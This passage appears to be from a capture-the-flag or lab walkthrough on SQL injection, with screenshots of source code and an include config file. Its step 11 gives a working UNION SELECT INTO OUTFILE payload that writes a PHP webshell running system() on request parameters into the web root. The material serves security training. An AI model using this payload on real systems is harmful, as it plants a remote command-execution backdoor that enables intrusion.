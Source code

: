 <figure><img src="../../../.gitbook/assets/source-code-search-php.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/include-config-php.png" alt=""><figcaption></figcaption></figure>

11. Find the flag by using a webshell.

Inject this payload into the form.

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/webshell.php'-- -
```

